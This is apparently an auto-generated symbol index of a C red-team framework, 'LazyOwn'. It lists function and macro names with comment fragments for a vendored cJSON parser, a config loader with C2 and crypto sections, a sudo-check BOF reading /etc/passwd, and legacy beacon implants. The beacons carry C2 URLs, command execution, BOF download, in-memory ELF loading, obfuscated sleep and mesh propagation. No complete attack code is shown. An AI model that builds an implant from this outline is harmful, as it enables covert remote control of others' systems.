- `parse_value` (line 1390) `static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer)` - *return false; } p.buffer = (unsigned char *)buffer; p.length = (size_t)length; p.offset = 0; p.noalloc = true; p.format = format; p.hooks = global_hooks; return print_value(item, &p); } /* Parser core - when encountering text, process appropriately.*
- `print_value` (line 1450) `static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer)` - *if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '[')) { return parse_array(item, input_buffer); } /* object if (can_access_at_index(input_buffer, 0) && (buffer_at_offset(input_buffer)[0] == '{')) { return parse_object(item, input_buffer); } return false; } /* Render a value to text.*
- `parse_array` (line 1524) `static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer)` - *return print_string(item, output_buffer); case cJSON_Array: return print_array(item, output_buffer); case cJSON_Object: return print_object(item, output_buffer); default: return false; } } /* Build an array from input text.*
- `print_array` (line 1621) `static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer)` - *input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an array to text*
- `parse_object` (line 1683) `static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer)` - *output_pointer = ensure(output_buffer, 2); if (output_pointer == NULL) { return false; } output_pointer++ = ']'; output_pointer = '\0'; output_buffer->depth--; return true; } /* Build an object from the text.*
- `print_object` (line 1801) `static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer)` - *input_buffer->offset++; return true; fail: if (head != NULL) { cJSON_Delete(head); } return false; } /* Render an object to text.*
- `get_array_item` (line 1937) `static cJSON *get_array_item(const cJSON *array, size_t index)`
- `CJSON_PUBLIC` (line 1956) `CJSON_PUBLIC(cJSON *) cJSON_GetArrayItem(const cJSON *array, int index)`
- `get_object_item` (line 1966) `static cJSON *get_object_item(const cJSON *const object, const char *const name,
                ...`
- `CJSON_PUBLIC` (line 2003) `CJSON_PUBLIC(cJSON *) cJSON_GetObjectItem(const cJSON *const object, const char *const string)`
- `CJSON_PUBLIC` (line 2008) `CJSON_PUBLIC(cJSON *)
cJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *con...`
- `CJSON_PUBLIC` (line 2014) `CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string)`
- `suffix_object` (line 2020) `static void suffix_object(cJSON *prev, cJSON *item)` - *} CJSON_PUBLIC(cJSON *) cJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *const string) { return get_object_item(object, string, true); } CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling.*
- `create_reference` (line 2027) `static cJSON *create_reference(const cJSON *item, const internal_hooks *const hooks)` - *CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling. static void suffix_object(cJSON *prev, cJSON *item) { prev->next = item; item->prev = prev; } /* Utility for handling references.*
- `add_item_to_array` (line 2048) `static cJSON_bool add_item_to_array(cJSON *array, cJSON *item)`
- `cast_away_const` (line 2095) `static void *cast_away_const(const void *string)` - */* Add item to array/object. CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToArray(cJSON *array, cJSON *item) { return add_item_to_array(array, item); } #if defined(__clang__) ||                                                                          \ (defined(__GNUC__) && ((__GNUC__ > 4) || ((__GNUC__ == 4) && (__GNUC__ - MINOR__ > 5)))) #pragma GCC diagnostic push #endif #ifdef __GNUC__ #pragma GCC diagnostic ignored "-Wcast-qual" #endif /* helper function to cast away const*
- `add_item_to_object` (line 2104) `static cJSON_bool add_item_to_object(cJSON *const object, const char *const string,
             ...`
- `CJSON_PUBLIC` (line 2143) `CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObject(cJSON *object, const char *string, cJSON *item)`
- `CJSON_PUBLIC` (line 2154) `CJSON_PUBLIC(cJSON_bool) cJSON_AddItemReferenceToArray(cJSON *array, cJSON *item)`
- `CJSON_PUBLIC` (line 2164) `CJSON_PUBLIC(cJSON_bool)
cJSON_AddItemReferenceToObject(cJSON *object, const char *string, cJSON ...`
- `CJSON_PUBLIC` (line 2176) `CJSON_PUBLIC(cJSON *) cJSON_AddNullToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2188) `CJSON_PUBLIC(cJSON *) cJSON_AddTrueToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2200) `CJSON_PUBLIC(cJSON *) cJSON_AddFalseToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2212) `CJSON_PUBLIC(cJSON *)
cJSON_AddBoolToObject(cJSON *const object, const char *const name, const cJ...`
- `CJSON_PUBLIC` (line 2225) `CJSON_PUBLIC(cJSON *)
cJSON_AddNumberToObject(cJSON *const object, const char *const name, const ...`
- `CJSON_PUBLIC` (line 2238) `CJSON_PUBLIC(cJSON *)
cJSON_AddStringToObject(cJSON *const object, const char *const name, const ...`
- `CJSON_PUBLIC` (line 2251) `CJSON_PUBLIC(cJSON *)
cJSON_AddRawToObject(cJSON *const object, const char *const name, const cha...`
- `CJSON_PUBLIC` (line 2264) `CJSON_PUBLIC(cJSON *) cJSON_AddObjectToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2276) `CJSON_PUBLIC(cJSON *) cJSON_AddArrayToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2288) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemViaPointer(cJSON *parent, cJSON *const item)`
- `CJSON_PUBLIC` (line 2324) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromArray(cJSON *array, int which)`
- `CJSON_PUBLIC` (line 2334) `CJSON_PUBLIC(void) cJSON_DeleteItemFromArray(cJSON *array, int which)`
- `CJSON_PUBLIC` (line 2339) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObject(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2346) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObjectCaseSensitive(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2353) `CJSON_PUBLIC(void) cJSON_DeleteItemFromObject(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2358) `CJSON_PUBLIC(void) cJSON_DeleteItemFromObjectCaseSensitive(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2400) `CJSON_PUBLIC(cJSON_bool)
cJSON_ReplaceItemViaPointer(cJSON *const parent, cJSON *const item, cJSO...`
- `CJSON_PUBLIC` (line 2451) `CJSON_PUBLIC(cJSON_bool) cJSON_ReplaceItemInArray(cJSON *array, int which, cJSON *newitem)`
- `replace_item_in_object` (line 2461) `static cJSON_bool replace_item_in_object(cJSON *object, const char *string, cJSON *replacement,
 ...`
- `CJSON_PUBLIC` (line 2486) `CJSON_PUBLIC(cJSON_bool)
cJSON_ReplaceItemInObject(cJSON *object, const char *string, cJSON *newi...`
- `CJSON_PUBLIC` (line 2492) `CJSON_PUBLIC(cJSON_bool)
cJSON_ReplaceItemInObjectCaseSensitive(cJSON *object, const char *string...`
- `CJSON_PUBLIC` (line 2510) `CJSON_PUBLIC(cJSON *) cJSON_CreateTrue(void)`
- `CJSON_PUBLIC` (line 2521) `CJSON_PUBLIC(cJSON *) cJSON_CreateFalse(void)`
- `CJSON_PUBLIC` (line 2532) `CJSON_PUBLIC(cJSON *) cJSON_CreateBool(cJSON_bool boolean)`
- `CJSON_PUBLIC` (line 2543) `CJSON_PUBLIC(cJSON *) cJSON_CreateNumber(double num)`
- `CJSON_PUBLIC` (line 2568) `CJSON_PUBLIC(cJSON *) cJSON_CreateString(const char *string)`
- `CJSON_PUBLIC` (line 2585) `CJSON_PUBLIC(cJSON *) cJSON_CreateStringReference(const char *string)`
- `CJSON_PUBLIC` (line 2597) `CJSON_PUBLIC(cJSON *) cJSON_CreateObjectReference(const cJSON *child)`
- `CJSON_PUBLIC` (line 2609) `CJSON_PUBLIC(cJSON *) cJSON_CreateArrayReference(const cJSON *child)`
- `CJSON_PUBLIC` (line 2621) `CJSON_PUBLIC(cJSON *) cJSON_CreateRaw(const char *raw)`
- `CJSON_PUBLIC` (line 2638) `CJSON_PUBLIC(cJSON *) cJSON_CreateArray(void)`
- `CJSON_PUBLIC` (line 2649) `CJSON_PUBLIC(cJSON *) cJSON_CreateObject(void)`
- `CJSON_PUBLIC` (line 2702) `CJSON_PUBLIC(cJSON *) cJSON_CreateFloatArray(const float *numbers, int count)`
- `CJSON_PUBLIC` (line 2743) `CJSON_PUBLIC(cJSON *) cJSON_CreateDoubleArray(const double *numbers, int count)`
- `CJSON_PUBLIC` (line 2784) `CJSON_PUBLIC(cJSON *) cJSON_CreateStringArray(const char *const *strings, int count)`
- `cJSON_Duplicate_rec` (line 2832) `cJSON *cJSON_Duplicate_rec(const cJSON *item, size_t depth, cJSON_bool recurse)`
- `skip_oneline_comment` (line 2923) `static void skip_oneline_comment(char **input)`
- `skip_multiline_comment` (line 2937) `static void skip_multiline_comment(char **input)`
- `minify_string` (line 2951) `static void minify_string(char **input, char **output)`
- `CJSON_PUBLIC` (line 2977) `CJSON_PUBLIC(void) cJSON_Minify(char *json)`
- `CJSON_PUBLIC` (line 3027) `CJSON_PUBLIC(cJSON_bool) cJSON_IsInvalid(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3037) `CJSON_PUBLIC(cJSON_bool) cJSON_IsFalse(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3047) `CJSON_PUBLIC(cJSON_bool) cJSON_IsTrue(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3057) `CJSON_PUBLIC(cJSON_bool) cJSON_IsBool(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3067) `CJSON_PUBLIC(cJSON_bool) cJSON_IsNull(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3077) `CJSON_PUBLIC(cJSON_bool) cJSON_IsNumber(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3087) `CJSON_PUBLIC(cJSON_bool) cJSON_IsString(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3097) `CJSON_PUBLIC(cJSON_bool) cJSON_IsArray(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3107) `CJSON_PUBLIC(cJSON_bool) cJSON_IsObject(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3117) `CJSON_PUBLIC(cJSON_bool) cJSON_IsRaw(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3127) `CJSON_PUBLIC(cJSON_bool)
cJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bo...`
- `cJSON_ArrayForEach` (line 3214) `cJSON_ArrayForEach(a_element, a)`
- `cJSON_ArrayForEach` (line 3230) `cJSON_ArrayForEach(b_element, b)` - *doing this twice, once on a and b to prevent true comparison if a subset of b * TODO: Do this the proper way, this is just a fix for now*
- `CJSON_PUBLIC` (line 3251) `CJSON_PUBLIC(void *) cJSON_malloc(size_t size)`
- `CJSON_PUBLIC` (line 3256) `CJSON_PUBLIC(void) cJSON_free(void *object)`

**Macros:**
- `_CRT_SECURE_NO_DEPRECATE` (line 28) `#define _CRT_SECURE_NO_DEPRECATE`
- `true` (line 65) `#define true`
- `false` (line 70) `#define false`
- `isinf` (line 75) `#define isinf(d)`
- `isnan` (line 78) `#define isnan(d)`
- `NAN` (line 83) `#define NAN`
- `NAN` (line 85) `#define NAN`
- `internal_malloc` (line 180) `#define internal_malloc`
- `internal_free` (line 181) `#define internal_free`
- `internal_realloc` (line 182) `#define internal_realloc`
- `static_strlen` (line 186) `#define static_strlen(string_literal)`
- `can_read` (line 302) `#define can_read(buffer, size)`
- `can_access_at_index` (line 304) `#define can_access_at_index(buffer, index)`
- `cannot_access_at_index` (line 306) `#define cannot_access_at_index(buffer, index)`
- `buffer_at_offset` (line 308) `#define buffer_at_offset(buffer)`
- `cjson_min` (line 1256) `#define cjson_min(a, b)`

**Structs:**
- `internal_hooks` (line 158)
- `error` (line 89)
- `parse_buffer` (line 292)
- `printbuffer` (line 485)

#### `config.c`
**Path:** `include/config.c`

**Functions:**
- `slurp` (line 24) `static char *slurp(const char *path, size_t *out_len)` - *declared in the schema. Unknown keys are skipped. Missing sections fall back to safe defaults.  #define _POSIX_C_SOURCE 200809L #include "config.h" #include <stdio.h> #include <stdlib.h> #include <string.h> #include <ctype.h> #include <time.h> #include <unistd.h> #include <limits.h> /* --- file slurper ---*
- `skip_ws` (line 56) `static const char *skip_ws(const char *p, const char *end)` - *} if (fread(buf, 1, (size_t)n, f) != (size_t)n) { fclose(f); free(buf); return NULL; } buf[n] = '\0'; fclose(f); out_len = (size_t)n; return buf; } /* --- lexer-style cursor helpers ---*
- `read_string` (line 66) `static int read_string(const char **pp, const char *end, char *out, size_t outsz)` - *Read a JSON string starting at *pp (which must point at "). On success, write the unescaped string into out (NUL terminated) * and advance *pp past the closing quote.*
- `read_int` (line 113) `static int read_int(const char **pp, const char *end, int *out)`
- `read_bool` (line 137) `static int read_bool(const char **pp, const char *end, int *out)`
- `expect` (line 156) `static int expect(const char **pp, const char *end, char c)` - *out = 1; pp = p + 4; return 1; } if ((end - p) >= 5 && !memcmp(p, "false", 5)) { out = 0; pp = p + 5; return 1; } return 0; } /* Expect the literal byte c.*
- `find_matching_brace` (line 167) `static const char *find_matching_brace(const char *p, const char *end)` - *Find the byte position of the matching closing brace for the * opening { at *pp. Honors string and escape rules.*
- `skip_value` (line 203) `static const char *skip_value(const char *p, const char *end)` - *Skip the next value at p (string, number, bool, null, object, array). * Returns the position just past the value, or NULL on error.*
- `hex_to_bytes` (line 269) `static int hex_to_bytes(const char *hex, uint8_t *out, size_t outlen)` - *if (c == 't') return p + 4; if (c == 'f') return p + 5; if (c == 'n') return p + 4; /* number while (p < end && (*p == '-' || isdigit((unsigned char)*p) || *p == '.' || *p == 'e' || p == 'E' || *p == '+')) p++; return p; } /* --- hex decode ---*
- `hmac_sha256` (line 292) `static void hmac_sha256(const uint8_t *key, size_t key_len, const uint8_t *data, size_t data_len,...`
- `hkdf_extract` (line 299) `static void hkdf_extract(const uint8_t *salt, size_t salt_len, const uint8_t *ikm, size_t ikm_len...`
- `hkdf_expand` (line 305) `static void hkdf_expand(const uint8_t *prk, size_t prk_len, const uint8_t *info, size_t info_len,...`
- `hkdf_sha256` (line 337) `static void hkdf_sha256(const uint8_t *ikm, size_t ikm_len, const uint8_t *salt, size_t salt_len,...`
- `derive_keys_from_master` (line 345) `static void derive_keys_from_master(bsb_config_t *cfg)`
- `parse_c2` (line 375) `static void parse_c2(const char *p, const char *end, bsb_config_t *cfg)` - *} uint8_t salt[] = HKDF_SALT; uint8_t info_enc[] = HKDF_INFO_ENC; uint8_t info_hmac[] = HKDF_INFO_HMAC; hkdf_sha256(master_key, BSB_AES_KEY_BYTES, salt, sizeof(salt) - 1, info_enc, sizeof(info_enc) - 1, cfg->crypto.encryption_key, BSB_AES_KEY_BYTES); hkdf_sha256(master_key, BSB_AES_KEY_BYTES, salt, sizeof(salt) - 1, info_hmac, sizeof(info_hmac) - 1, cfg->crypto.hmac_key, BSB_AES_KEY_BYTES); } /* --- per-section parsers ---*
- `parse_crypto` (line 419) `static void parse_crypto(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_timing` (line 474) `static void parse_timing(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_network` (line 518) `static void parse_network(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_bof` (line 586) `static void parse_bof(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_backoff` (line 620) `static void parse_backoff(const char *p, const char *end, bsb_config_t *cfg)`
- `bsb_config_load` (line 655) `int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen)` - *} else { p = skip_value(p, end); if (!p) return; } p = skip_ws(p, end); if (p < end && *p == ',') p++; } } /* --- main load ---*
- `binary_dir` (line 798) `static const char *binary_dir(char *out, size_t outsz)` - *Return the directory the running binary lives in, or NULL if we cannot resolve it (e.g. on platforms without /proc/self/exe). The returned buffer is statically sized; the caller copies if * it needs to keep the value past subsequent calls.*
- `bsb_config_load_default` (line 820) `int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen)`
- `bsb_config_sleep_seconds` (line 853) `int bsb_config_sleep_seconds(const bsb_config_t *cfg)`

**Macros:**
- `_POSIX_C_SOURCE` (line 13) `#define _POSIX_C_SOURCE`
- `HKDF_SALT` (line 288) `#define HKDF_SALT`
- `HKDF_INFO_ENC` (line 289) `#define HKDF_INFO_ENC`
- `HKDF_INFO_HMAC` (line 290) `#define HKDF_INFO_HMAC`

#### `config_autogen.c`
**Path:** `include/config_autogen.c`

**Functions:**
- `slurp` (line 16) `static char *slurp(const char *path, size_t *out_len)` - *Auto-generated C config parser from config/schema.json DO NOT EDIT MANUALLY - run config/generate_parsers.py to regenerate  #define _POSIX_C_SOURCE 200809L #include "config_autogen.h" #include <stdio.h> #include <stdlib.h> #include <string.h> #include <ctype.h> #include <time.h> #include <unistd.h> #include <limits.h> /* --- file slurper ---*
- `skip_ws` (line 34) `static const char *skip_ws(const char *p, const char *end)` - *fseek(f, 0, SEEK_END); long n = ftell(f); fseek(f, 0, SEEK_SET); if (n < 0) { fclose(f); return NULL; } char *buf = (char *)malloc((size_t)n + 1); if (!buf) { fclose(f); return NULL; } if (fread(buf, 1, (size_t)n, f) != (size_t)n) { fclose(f); free(buf); return NULL; } buf[n] = '\0'; fclose(f); out_len = (size_t)n; return buf; } /* --- lexer-style cursor helpers ---*
- `read_string` (line 40) `static int read_string(const char **pp, const char *end, char *out, size_t outsz)`
- `read_int` (line 68) `static int read_int(const char **pp, const char *end, int *out)`
- `read_bool` (line 85) `static int read_bool(const char **pp, const char *end, int *out)`
- `expect` (line 93) `static int expect(const char **pp, const char *end, char c)`
- `find_matching_brace` (line 101) `static const char *find_matching_brace(const char *p, const char *end)`
- `skip_value` (line 123) `static const char *skip_value(const char *p, const char *end)`
- `hex_to_bytes` (line 165) `static int hex_to_bytes(const char *hex, uint8_t *out, size_t outlen)` - *if (ch == '[') depth++; else if (ch == ']') { depth--; if (depth == 0) return p + 1; } p++; } return NULL; } if (c == 't') return p + 4; if (c == 'f') return p + 5; if (c == 'n') return p + 4; while (p < end && (*p == '-' || isdigit((unsigned char)*p) || *p == '.' || *p == 'e' || *p == 'E' || *p == '+')) p++; return p; } /* --- hex decode ---*
- `parse_c2` (line 177) `static void parse_c2(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_crypto` (line 206) `static void parse_crypto(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_timing` (line 227) `static void parse_timing(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_network` (line 260) `static void parse_network(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_bof` (line 300) `static void parse_bof(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_backoff` (line 325) `static void parse_backoff(const char *p, const char *end, bsb_config_t *cfg)`
- `parse_server` (line 350) `static void parse_server(const char *p, const char *end, bsb_config_t *cfg)`
- `bsb_config_load` (line 375) `int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen)`

**Macros:**
- `_POSIX_C_SOURCE` (line 5) `#define _POSIX_C_SOURCE`

#### `issudo.c`
**Path:** `issudo.c`
**File Doc:** *is_sudo.c — LazyOwn RedTeam BOF (Linux/x64)  Tipos*

**Functions:**
- `syscall3` (line 22) `static inline long syscall3(long n, long a1, long a2, long a3)` - *Wrappers*
- `syscall1` (line 32) `static inline long syscall1(long n, long a1)`
- `strcmp` (line 40) `static int strcmp(const char *s1, const char *s2)` - *strcmp mínimo (necesario para comparar strings)*
- `get_username_from_uid` (line 51) `static int get_username_from_uid(long uid, char *buf, int buf_size)` - *Obtener username desde /etc/passwd (sin libc)*
- `go` (line 121) `void go(char *args, int alen)`
- `BeaconPrintf` (line 10) `extern void BeaconPrintf(int, const char *, ...);` - *Símbolos del beacon*
- `BeaconOutput` (line 11) `extern void BeaconOutput(int, const char *, int);`

**Macros:**
- `NULL` (line 2) `#define NULL`
- `CALLBACK_OUTPUT` (line 3) `#define CALLBACK_OUTPUT`
- `SYS_openat` (line 14) `#define SYS_openat`
- `SYS_read` (line 15) `#define SYS_read`
- `SYS_close` (line 16) `#define SYS_close`
- `SYS_getuid` (line 17) `#define SYS_getuid`
- `SYS_getpwuid_r` (line 18) `#define SYS_getpwuid_r`
- `AT_FDCWD` (line 19) `#define AT_FDCWD`

**Type_Aliases:**
- `size_t` (line 6) `typedef unsigned long size_t;` - *Tipos*
- `ssize_t` (line 7) `typedef long ssize_t;`

#### `beacon3.c`
**Path:** `legacy/beacon3.c`

**Functions:**
- `__attribute__` (line 145) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `BeaconPrintf` (line 196) `void BeaconPrintf(int type, const char *fmt, ...)` - *=== BEACON API ===*
- `BeaconOutput` (line 213) `void BeaconOutput(int type, const char *data, int len)`
- `create_trampoline` (line 227) `static void *create_trampoline(void *target)` - *=== CRATE TRAPOLINE ===*
- `cleanup_trampolines` (line 268) `static void cleanup_trampolines(void)` - *=== CLEAN TRAMPOLINE ===*
- `get_or_create_trampoline` (line 286) `static void *get_or_create_trampoline(void *target)`
- `WriteMemoryCallback` (line 324) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)` - *=== CURL WRITE CALLBACK ===*
- `https_request` (line 342) `char *https_request(const char *url, const char *method, const char *post_data)` - *=== HTTPS REQUEST ===*
- `base64_encode` (line 436) `char *base64_encode(const unsigned char *input, int len)` - *=== BASE64 ===*
- `base64_decode` (line 454) `unsigned char *base64_decode(const char *input, int *len)`
- `aes256_cfb_encrypt` (line 480) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...` - *=== AES CFB ===*
- `aes256_cfb_decrypt` (line 514) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `exec_cmd` (line 550) `char *exec_cmd(const char *cmd, int *out_len)` - *=== EXEC CMD ===*
- `page_align` (line 576) `static size_t page_align(size_t size)` - *=== Función auxiliar: alinear al tamaño de página ===*
- `RunELF` (line 584) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `get_local_ips` (line 1083) `char *get_local_ips()` - *=== GET LOCAL IPs ===*
- `download_bof` (line 1118) `unsigned char *download_bof(const char *url, size_t *out_size)` - *=== DOWNLOAD BOF ===*
- `run_bof_and_capture` (line 1141) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...` - *=== RUN BOF AND CAPTURE ===*
- `main` (line 1187) `int main()` - *=== MAIN ===*

**Macros:**
- `_GNU_SOURCE` (line 1) `#define _GNU_SOURCE`
- `C2_URL` (line 33) `#define C2_URL`
- `CLIENT_ID` (line 34) `#define CLIENT_ID`
- `MALEABLE` (line 35) `#define MALEABLE`
- `USER_AGENTS_COUNT` (line 36) `#define USER_AGENTS_COUNT`

**Structs:**
- `MemoryStruct` (line 52) - *=== ESTRUCTURAS ===*
- `Trampoline` (line 60) - *=== TRAMPOLINES ===*
- `SymbolResolver` (line 69)
- `TrampolineCache` (line 76) - *=== CACHE DE TRAMPOLINES ===*

#### `beacon5.c`
**Path:** `legacy/beacon5.c`

**Functions:**
- `__attribute__` (line 188) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `BeaconPrintf` (line 239) `void BeaconPrintf(int type, const char *fmt, ...)` - *=== BEACON API ===*
- `BeaconOutput` (line 256) `void BeaconOutput(int type, const char *data, int len)`
- `create_trampoline` (line 270) `static void *create_trampoline(void *target)` - *=== CRATE TRAPOLINE ===*
- `cleanup_trampolines` (line 311) `static void cleanup_trampolines(void)` - *=== CLEAN TRAMPOLINE ===*
- `get_or_create_trampoline` (line 329) `static void *get_or_create_trampoline(void *target)`
- `WriteMemoryCallback` (line 367) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)` - *=== CURL WRITE CALLBACK ===*
- `https_request` (line 385) `char *https_request(const char *url, const char *method, const char *post_data)` - *=== HTTPS REQUEST ===*
- `base64_encode` (line 479) `char *base64_encode(const unsigned char *input, int len)` - *=== BASE64 ===*
- `base64_decode` (line 497) `unsigned char *base64_decode(const char *input, int *len)`
- `aes256_cfb_encrypt` (line 523) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...` - *=== AES CFB ===*
- `aes256_cfb_decrypt` (line 557) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `exec_cmd` (line 593) `char *exec_cmd(const char *cmd, int *out_len)` - *=== EXEC CMD ===*
- `page_align` (line 619) `static size_t page_align(size_t size)` - *=== Función auxiliar: alinear al tamaño de página ===*
- `RunELF` (line 627) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `get_local_ips` (line 1126) `char *get_local_ips()` - *=== GET LOCAL IPs ===*
- `download_bof` (line 1161) `unsigned char *download_bof(const char *url, size_t *out_size)` - *=== DOWNLOAD BOF ===*
- `run_bof_and_capture` (line 1184) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...` - *=== RUN BOF AND CAPTURE ===*
- `mesh_mark_seen` (line 1231) `void mesh_mark_seen(const char *msg_id)`
- `mesh_is_seen` (line 1240) `int mesh_is_seen(const char *msg_id)`
- `mesh_add_peer` (line 1255) `void mesh_add_peer(const char *ip, int port)`
- `mesh_cleanup_peers` (line 1283) `void mesh_cleanup_peers()`
- `mesh_send_to_peer` (line 1300) `int mesh_send_to_peer(const char *ip, int port, const mesh_msg_t *msg)`
- `mesh_propagate` (line 1324) `void mesh_propagate(const char *command)`
- `mesh_discovery_thread` (line 1356) `void *mesh_discovery_thread(void *arg)`
- `mesh_listener_thread` (line 1447) `void *mesh_listener_thread(void *arg)`
- `mesh_send_message` (line 1667) `void mesh_send_message(int type, const char *target, const char *payload)`
- `main` (line 1702) `int main(int argc, char **argv)` - *=== MAIN ===*

**Macros:**
- `_GNU_SOURCE` (line 1) `#define _GNU_SOURCE`
- `MAX_PEERS` (line 36) `#define MAX_PEERS`
- `DISCOVERY_PORT` (line 37) `#define DISCOVERY_PORT`
- `DISCOVERY_INTERVAL` (line 38) `#define DISCOVERY_INTERVAL`
- `MAX_TTL` (line 39) `#define MAX_TTL`
- `MESH_MSG_SIZE` (line 40) `#define MESH_MSG_SIZE`
- `C2_URL` (line 42) `#define C2_URL`
- `CLIENT_ID` (line 43) `#define CLIENT_ID`
- `MALEABLE` (line 44) `#define MALEABLE`
- `USER_AGENTS_COUNT` (line 45) `#define USER_AGENTS_COUNT`

**Structs:**
- `MemoryStruct` (line 61) - *=== ESTRUCTURAS ===*
- `peer_t` (line 69) - *=== ESTRUCTURAS MESH ===*
- `mesh_msg_t` (line 77)
- `Trampoline` (line 102) - *=== TRAMPOLINES ===*
- `SymbolResolver` (line 111)
- `TrampolineCache` (line 118) - *=== CACHE DE TRAMPOLINES ===*

#### `beacon6.c`
**Path:** `legacy/beacon6.c`

**Functions:**
- `__attribute__` (line 146) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `delay_ms` (line 197) `static void delay_ms(int ms)` - *sleep ofuscated using poll*
- `is_prime` (line 204) `static unsigned int is_prime(unsigned int x)` - *-- Lógica de números primos (sin cambios esenciales) ---*
- `get_nth_prime_limited` (line 224) `static unsigned int get_nth_prime_limited(unsigned int n)` - *if ((x & 1) == 0) return 0; /* even > 2 unsigned int d = 3; while (d * d <= x) { if (x % d == 0) return 0; d += 2; } return 1; } /* Returns the n-th prime (1-indexed). Returns 0 if n <= 0.*
- `portable_rand_19k_29k` (line 253) `static unsigned int portable_rand_19k_29k(void)`
- `BeaconPrintf` (line 266) `void BeaconPrintf(int type, const char *fmt, ...)` - *=== BEACON API ===*
- `BeaconOutput` (line 283) `void BeaconOutput(int type, const char *data, int len)`
- `create_trampoline` (line 297) `static void *create_trampoline(void *target)` - *=== CRATE TRAPOLINE ===*
- `cleanup_trampolines` (line 338) `static void cleanup_trampolines(void)` - *=== CLEAN TRAMPOLINE ===*
- `get_or_create_trampoline` (line 356) `static void *get_or_create_trampoline(void *target)`
- `WriteMemoryCallback` (line 394) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)` - *=== CURL WRITE CALLBACK ===*
- `https_request` (line 412) `char *https_request(const char *url, const char *method, const char *post_data)` - *=== HTTPS REQUEST ===*
- `base64_encode` (line 506) `char *base64_encode(const unsigned char *input, int len)` - *=== BASE64 ===*
- `base64_decode` (line 524) `unsigned char *base64_decode(const char *input, int *len)`
- `aes256_cfb_encrypt` (line 550) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...` - *=== AES CFB ===*
- `aes256_cfb_decrypt` (line 584) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `exec_cmd` (line 620) `char *exec_cmd(const char *cmd, int *out_len)` - *=== EXEC CMD ===*
- `page_align` (line 646) `static size_t page_align(size_t size)` - *=== Función auxiliar: alinear al tamaño de página ===*
- `RunELF` (line 654) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `get_local_ips` (line 1153) `char *get_local_ips()` - *=== GET LOCAL IPs ===*
- `download_bof` (line 1188) `unsigned char *download_bof(const char *url, size_t *out_size)` - *=== DOWNLOAD BOF ===*
